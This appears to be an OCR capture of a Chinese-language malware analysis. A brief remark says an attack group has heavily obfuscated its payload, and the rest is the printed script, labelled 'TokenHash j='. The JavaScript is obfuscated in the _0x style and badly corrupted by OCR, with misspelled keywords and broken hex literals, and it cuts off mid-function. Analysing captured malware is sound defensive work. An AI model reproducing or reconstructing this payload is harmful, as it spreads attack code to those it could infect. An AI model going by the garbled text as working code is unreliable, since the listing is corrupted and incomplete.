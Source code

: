 ![](https://cdn-mineru.openxlab.org.cn/extract/7f4f35cd-230f-422e-ae5b-40905df4ab4f/52ceba0b550ca2c320e60e48c21da94be4fede424edffa88606ac79a32919d7f.jpg)  

打开该文件发现此脚本经过严重混淆，在之前捕获的此类攻击中并没有这么混淆，由此也可以看出该组织在不遗余力的进行载荷升级。  

# TokenHash j=  

（funotlon（_0x1b827a,_0x7631d）oonst_0x2978d5=_0x1b827a(）;funotlon_0x17b1c8(_0x3c62e8,_0x265e47,_0x55774,_ox353faf,_0x422895){return_0xe949(_0x422895-0x136,_0x353faf）) funotlon0x48260（0x2d4ab,0x5d192,0x49777,0x3db90f,0x1e0829）（return0xe949（0x1e082--0x16c,0x3db50f）;）funetlon0x2feb（0x325ddf,0x11d68f,0x2c8ebB，0x2112d, 0x573369)(return_0xe549（_0x325ddf-0x3b8,_0x11d68f）;)funotion_0x5c97b5（_0x3cd07f，_0x43ee41,_0x55bc44,_0x5ea82f,_0x442b33)(return_0xe949(_0x43ee41-0xe4,_0x3cd07f）:)function 0x3e28e（0x57673,0x60375，0x3bb4,0x700d，0x264bfa){retu0xe549（0x264ba-0x3d，0x460375）h1（11）try（const0xd0ab-parseInt（0x48260（0xd0x1f,0x5 0x156，0xb3））/(0x5d5+-0x1\*0x10c1+0xaed）\*（parseInt(_0x17b1c8（0x3da,0x3ca,0x4cB'，0x4tf，0x41d）)/（-0x47\*-0xbb+0x12e5\*-0x1+-0x13a2））+-parseInt（_0x17b1c8（0x3a2,\*0x2fc',0x455,0x3d2， 0x37/（0x190xx6a5+0xx33d+nt（0x597b9x3430x20x2780x24x20））（-x2+0x0x28x）（pan（0x597b9（x390x370xa00xx51 ）/（-x5+0xd7-x2+0x29d））+paInt（0x260（0xEbDx1Dx24,x200,0x160°）/（0x1-0x239x10x3a5+0x29-ca）\*（-paInt（0x260（0x17d，0x12d0x，0x14，0xb6 )/(0x157e+0x125e+=0x27d3））+-parseInt（_0x3ef28e（0x7081,0x6e6,0x741,0x72c',0x6d6))/（-0x2\*0x11d7+-0x15b7+-0x1\*-0x3d6d）\*（paxeInt(_0x3e28e(0x70,0x63，10x6ba，0x605,0x680))/（ 0xb44+-0x266+-0x11\*0x5））+parseInt（_0x2fae5b（0x71a，0x775,0x74,0x6b4,0x6d5）)/（-0x33+x1150+-0x=13）+parseInt(_0x3e28e（0x61b0x646,0x540,0x6b2,0x5E5））/（-0x2216\*-0x1+-0x154 +0x5\*0x26）\*（parseInt（0x5c97b9（0x1e1,0x2e7，10x1de，0x3a0,0x208))/(0x6\*-0x1cd+-0x8\*0x43b+0x6\*0x773）);1f（0xd0a88b0x7631d）break;e1se_0x2978d5[push'](_0x2978d5[shift 10）;lcatch（0x364dd1）(_0x2978dS[push']（_0x2978d5[shift]0);11)（_0xd780,0x12927+-0x1406ad\*0x1+0x3-0xb557d))const_0x884854-(funotion()(1et_0x45d06f-11[1;return function( 0x1cbedc,_0xe3be3）(const_0x322ff8-_0x45d06f?function()(function_0x3c7c7b(_0x3c351b,_0xf93516,_0x262f0e,_0x2e63c4,_0x311a42)(return_0xe949（_0x262f0e--0x3ab，_0x311a42）;) funotlon0x135a70(0x1508a2,0x4cbd50,_0x2ba899,0x191bad,0x1ad64d）(return0xe949(_0x4cbd50--0x345,_0xlad64d）1funetlon0x2d7b56（0x71e803,_0x2a794a,0x3545b3,0x387ac9, 0x5e5723）（return0xe549（0x387ac9-\*0x17b_0x2a794a）}1f（0xe3bc3）)(1f（0x2d7b56（0x419，0x44e0x4d2,0x450°,0x518)-0x2d7b56（0x4b,0x4700x46e,0x4d,0x530\*)(aonst 0x48db51=_0xe3bc3[_0x3c7c7b（-0x289,-0x19o,-0x1f1,-0x2a6',-0x1c6')](_0x1cbedc,argumenta);zeturn_0xe3bc3=nul1,_0x48db51;)elsezeturn1[1];)}:funotion()();xaturn_0x45d06f=1[1, 0x322ff8;);)()）,_0x28c160=0x884854（this,funat1on()（funot1on_0x590dc7（_0xb263bf,_0x5e979d,_0x3a1931,_0x16735d,_0x2f24d5)（return_0xe949（_0xb263bf-0x75,0x5e979d）;}funot1on 0xe949（0x7227-0x00x91ea:1function0x29b35（0x453d25,0xa17b,0x1ade3,0xcc63f1,0x182549){return0xe949（0x1a9de3--0x1d0x182549）:functon0xa9dcec（0x2ee9c2 0xf67586(_0x1bee05,_0x714bf,_0x3d1d96,_0x5cdfcc,_0x3bc795）{return_0xe949(_0x5cdfce-0x30e，_0x1bee05);)function_0x3b7a43(_0x91eaa8,_0x4cad98,_0x7e227,_0xceae3d,_0x504b5c){retuzn 0x5641fe,0x4896c4,0xb536a5,0x3feBba)(return0xe949（_Oxb536a5--0x209,0x2ee9c2）)return0x28c160L0x590do7(0x23d0x3100x26e，0x2b,0xla1)+0x29bc35（0x324,0x1c9, 0x26e，0x270，0xfc）10)[_0x590do7（0x232，0x1d7，0x220，0x235,0x264)+h】（_0xf67986（\*0x5e8，0x5df，0x44d，\*0x51c，0x5ob)+_0x590do7（0x2dc，\*0x202，0x2140x369，0x205)++\$）[ 0x3b7a43(0x12,0x384,0x2b8,0x284,0x2c2)+_0xa9deec(-0x1a,-0x40,0xe3',0x82,0x46）]0[_0x67986(\*0x4b6，0x54b,0x416,0x4ed，0x532）+_0xa9dcec(-0x18,-0x1a,-0x125，-0x3d 0x2f）+1（_0x28e160）[0x29bc35（0x16E,0x27，0x1a0,0x185,10x1c5)+h]（0x3b7a43（0x30,0x3el,0x2e，0x3cc²,0x300)+0x3b7a43（0x3dB，10x26b,0x357,0x38a，0x2f0）++）1） 0x28c160();function0xe949（_0x3a0183,_0x264bd8)const_0x5165bb=_0xd780():return_0x=945=function(0x1f4540,0x193ad6)(0x1f4540=_0x1f4540-(-0xcb6\*-0x2+-0x2473\*-0x1+0x35-0x123 )let0x5a5f6e=0x5165bb[_0x14540]:return0x5a5fe:1,0xe949（0x3a0183,_0x264bd8);1funetion0x2a2148（0x5410a5,0x7c646,0x168772,0x36b6c,_0x4db61){return_0xe549（0x4db61- -0x58°,_0x5410a5）)}const _0x327779-（function()（1et_0x22b70b-11[l;return function（_0x3fafa4,_0xc193e)（funation_0x2b155c（0x2484a8,_0x1c3bd3,_0x199f8f，_0x49ae81,_0x5e6976）1 return_0xe949（0x1c3bd30x141,0x5e6976);functlon_0x5cb71b（_0xc4cabf,0x34dbe,_0x1710ce,_0x11bab7,_0x228ab1）{return_0xe949(_0x1710ce--0x116,_0x228ab1);)function_0x28936b（ _0x3fcb78,_0x19886d,_0x45b549,_0x1f1ace,_0x5edc12)(return_0xe949（_0x19886d-0x379,_0x45b549):1function_0x2a5bdf(_0x1e3f72,_0x4f762e,_0x5676d6,_0x18752f,_0x150200)(return 0x0949（_0x18752f-0x239,_0x4f7620);)funotion_0x2e79a1(_0x40ee05,_0x54fd69,_0x105aab,_0x113550,_0x157dd1)(return_0xe949(_0x40e05--0x1f1,_0x54fd69);)1f（_0x2079al（-0x14,0x91 -0x1f，0x37,-0x32）1--0x2079a1（0x9,0x18d,0x7,0x46,0x186))(const_0x437a38=0x22b70bfunction(0（functlon0x13610（_0x4fa035,_0x47791b，_0x353c53,0x4017d4,_0x2c412a）（xetuzn 0x5cb71b（0x4e035-0x35,0x4771b0x1ab，0x47751b-0x1e6,0x4017d4-0x50x2e412）;）uneon0x493e4（0x20a7ed，0x2110bd,0x574686,0x2560d6,0x120752）（reurn0x5eb71b _0x20a7cd-\*0x67',_0x2110bd-0x100,_0x20a7cd-\*0x401',_0x2560d6-0xe0',_0x120792);)funet1on_0x26143b(_0x1fdnef,_0x544577,_0x3bb4en,_0x48fb0d,_0x37f783){xeturn_0x5cb71b(_0x1fdaef  

